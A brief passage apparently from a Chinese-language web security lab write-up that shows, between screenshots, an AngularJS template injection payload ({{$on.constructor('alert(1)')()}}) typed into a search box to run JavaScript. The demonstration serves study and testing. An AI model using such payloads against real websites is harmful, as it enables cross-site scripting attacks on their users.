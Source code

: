 <img src=".\图片\Snipaste_2023-06-19_15-10-10.png" alt="Snipaste_2023-06-19_15-10-10" style="zoom:80%;" />

在搜索框输入

```
{{$on.constructor('alert(1)')()}}
```

<img src=".\图片\Snipaste_2023-06-19_15-11-20.png" alt="Snipaste_2023-06-19_15-11-20" style="zoom:67%;" />
